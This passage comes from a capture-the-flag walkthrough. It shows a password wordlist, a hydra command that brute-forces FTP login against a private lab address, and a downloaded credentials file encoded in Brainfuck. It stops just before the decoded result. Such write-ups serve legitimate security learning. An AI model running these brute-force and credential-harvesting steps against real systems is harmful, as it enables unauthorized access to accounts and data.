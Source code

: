     5L6kpPR5E2Msn
    65NX66Wv~oFP2
    LRAQ@zcBphn!1
    V4bt3*58Z32Xe
    ki^t!+uqB?DyI
    5iez1wGXKfPKQ
    nJ90XzX&AnF5v
    7EiMd5!r%=18c
    wYyx6Eq-T^9#@
    yT2o$2exo~UdW
    ZuI-8!JyI6iRS
    PTKM6RsLWZ1&^
    3O$oC~%XUlRO@
    KW3fjzWpUGHSW
    nTzl5f=9eS&*W
    WS9x0ZF=x1%8z
    Sr4*E4NT5fOhS
    hLR3xQV*gHYuC
    4P3QgF5kflszS
    NIZ2D%d58*v@R
    0rJ7p%6Axm05K
    94rU30Zx45z5c
    Vi^Qf+u%0*q_S
    1Fvdp&bNl3#&l
    zLH%Ot0Bw&c%9
    ```

12. I took the password list and stuck it in a file `passes.txt`. Then with hydra:

    `hydra -l ftpuser -P passes.txt ftp://10.10.1.75`

    I got the password `5iez1wGXKfPKQ`

13. Connecting to ftp I found a file called `Eli's_Creds.txt`. Downloading that and reading it I found the following content:

    ```
    +++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
    --<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
    ++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
    +++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
    ]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
    ++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
    --<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
    +<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
    ++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
    <]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
    <]>+. <+++[ ->--- <]>-- ---.- ----. <
    ```

    God dammit - truly a rabbit hole, this room.

14. I *know* I've seen the above before, but I spent a lot of time looking for ciphers that matched. Eventually I remembered: its the programming language [brainfuck](https://en.wikipedia.org/wiki/Brainfuck)! I ran the above through an [online brainfuck interpreter](https://www.tutorialspoint.com/execute_brainfk_online.php), and got:
